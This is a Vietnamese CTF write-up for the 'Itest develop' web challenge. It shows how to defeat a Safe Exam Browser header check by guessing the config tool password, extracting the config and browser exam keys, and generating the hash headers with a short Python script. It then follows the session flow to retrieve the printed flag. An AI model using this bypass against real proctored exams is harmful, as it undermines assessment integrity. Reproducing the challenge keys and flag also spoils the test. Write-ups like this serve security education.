

# Itest develop


## Solution

Thử thách này mình làm theo hướng unintended. Ý tưởng của mình đó là dùng trình duyệt để truy cập vào `http://itest.kcsc.tf:10003` thay vì dùng SEB.

Trước tiên, mình đọc file `app.js` trong source code được cung cấp. Mình chú ý tới đoạn code sau:

```js
await fastify.register(fp((fastify, opts, next) => {
    fastify.addHook('onRequest', async (req, reply) => {
        let configKeyHash = calculateConfigKeyHash(fastify.config.CONFIG_KEY, `http://${req.headers.host}:10003${req.url}`)
        let broswerExamKeyHash = calculateBrowserExamKeyHash(fastify.config.BROWSER_EXAM_KEY, `http://${req.headers.host}:10003${req.url}`)
        if (req.headers['x-safeexambrowser-configkeyhash'] !== configKeyHash || req.headers['x-safeexambrowser-requesthash'] !== broswerExamKeyHash) {
            reply.type('text/html').status(403).send('pls use on safe exam browser')
        }
    })
    next()
}))
```

Có thể thấy rằng đoạn code bên trên đảm bảo chúng ta phải sử dụng Safe Exam Browser mới có thể truy cập được vào URL. Nó thực hiện so sánh giá trị của header `x-safeexambrowser-configkeyhash` với `configKeyHash` và của header `x-safeexambrowser-requesthash` với `broswerExamKeyHash` mỗi khi có request. Nếu một trong hai cặp giá trị này khác nhau thì thứ chúng ta nhận về sau request sẽ chỉ là dòng chữ "pls use on safe exam browser".

Mình bắt request sau đó thêm 2 headers vào để kiểm tra thử:


Vậy liệu có thể bypass đoạn code kiểm tra bên trên không?

Mình tìm tới phần định nghĩa 2 hàm `calculateConfigKeyHash()` và `calculateBrowserExamKeyHash()`:

```js
const calculateConfigKeyHash = (configKey, url) => {
    return sha256(url + configKey)
}

const calculateBrowserExamKeyHash = (broswerKey, url) => {
    return sha256(url + broswerKey)
}
```

Hai hàm trên tuy tên khác nhau nhưng cũng chỉ thực hiện cùng một việc là tính toán mã hash sha256 của chuỗi gồm request URL `http://${req.headers.host}:10003${req.url}` và `fastify.config.CONFIG_KEY` hay `fastify.config.BROWSER_EXAM_KEY`.

Vậy giờ mình sẽ tìm cách lấy được 2 key.

Mình vào SEB Configuration Tool để lấy Browser Exam Key và Configuration Key. Tuy nhiên, để có thể vào được thì nó yêu cầu nhập mật khẩu:


Mình thử các mật khẩu dễ đoán thì với `KCSC` là mật khẩu đúng.

Vào được ứng dụng, mình di chuyển đến tab Exam để lấy được 2 keys:


Đã có được 2 keys, mình có thể kết hợp với request URL để tạo ra chuỗi mã hoá sha256 chính xác để đưa vào request header `x-safeexambrowser-configkeyhash` và `x-safeexambrowser-requesthash`.

Bởi vì khi request đến một URL khác thì chuỗi hash sẽ thay đổi nên mình có đoạn script python sau để tạo cho nhanh:

```python
from hashlib import sha256
import sys

CONFIG_KEY = "5b313e5ef1dea742dbc11f173c0a84dc56a3b8ac7307731f2e8dd622d053ae4c"
BROWSER_EXAM_KEY = "cc6fce94d8af935b2367e82ca10f4ce3e2dffdb3c96a20fb95931951327626ea"

input1 = sys.argv[1] + CONFIG_KEY
input2 = sys.argv[1] + BROWSER_EXAM_KEY

print("x-safeexambrowser-configkeyhash:", sha256(input1.encode('utf-8')).hexdigest())
print("x-safeexambrowser-requesthash:", sha256(input2.encode('utf-8')).hexdigest())
```

Mình chạy script để tạo 2 headers phù hợp khi request đến `http://itest.kcsc.tf:10003/`:

```text
┌──(kali㉿kali)-[~]
└─$ python hash.py http://itest.kcsc.tf:10003/
x-safeexambrowser-configkeyhash: 1ccc354e52405d81f0e214ad4a14648858e1f365a150d80698cace88c1e48af4
x-safeexambrowser-requesthash: a7372538471a9010ad9d4d9fd5f7a46b0a0bf03d0f774730bdf20200e09f52ec
```

Thêm 2 headers trên vào rồi gửi request, mình đã thành công thấy được giao diện trang chủ:



Vậy đã có thể bypass thành công.

Mình tiếp tục đọc file `app.js`, tập trung vào đoạn code ở cuối để có thể lấy được flag:

```js
fastify.get('/get-flag', async function (request, reply) {
    let uuid4 = uuid.v4()
    await request.session.reload()
    await uuidb.set(request.session.sessionId, uuid4)
    await request.session.save()
    await reply.status(302).redirect(`/flag/${uuid4}`)
})

fastify.get('/flag/:uuid', function (request, reply) {
    let uuid = uuidb.get(request.session.sessionId)
    request.session.destroy()
    if (uuid === request.params.uuid) {
        reply.send(fastify.config.FLAG)
    } else {
        reply.status(401).send('forbidden')
    }
})
```

Khi mình truy cập tới route `/get-flag` thì một UUID sẽ được tạo ra, sau đó phiên làm việc sẽ được lưu lại và redirect đến route `/flag/:uuid` với tham số `uuid` vừa mới được tạo.

Khi mình truy cập tới route `/flag/:uuid`, UUID sẽ được lấy từ `request.session.sessionId`, sau đó phiên của người dùng sẽ bị huỷ bỏ và so sánh UUID với giá trị của tham số `uuid` trong URL. Nếu trùng khớp, mình sẽ có được flag.

Giờ mình thử request tới `/get-flag` với 2 headers mới:

```text
┌──(kali㉿kali)-[~]
└─$ python hash.py http://itest.kcsc.tf:10003/get-flag
x-safeexambrowser-configkeyhash: 789c50c34432d19a0c23dda74f8eecb50050d61bc984fc742b4f8c6effd69eb9
x-safeexambrowser-requesthash: 651e1ffdfed8d4de959bf7e6520393be1da1d7ecff71347944eec39ceb073691

```


Có thể thấy rằng, server tạo một cookie `sessionId` sau đó redirect chúng ta tới `/flag/f99d6397-286f-492b-9ada-b671b412c591`.

Như vậy, mình sẽ thêm `sessionId` vào header `cookie` và đổi mới 2 headers lần cuối để lấy flag:

```text
┌──(kali㉿kali)-[~]
└─$ python hash.py http://itest.kcsc.tf:10003/flag/f99d6397-286f-492b-9ada-b671b412c591
x-safeexambrowser-configkeyhash: 91a270e235a882f024f1eda37ba711238e1a687b659863f8c3b5dd0aec0d4821
x-safeexambrowser-requesthash: 0389bce1a2c26283c28779f05f8c2737473755517c39831bf27806b246a4a16b
```


## Flag

`KCSC{-Ban-Da-Bi-Dinh-Chi-Thi-Mon-Nay-17c6c806-173f-45dd-b7bf-9f33f849df21}`
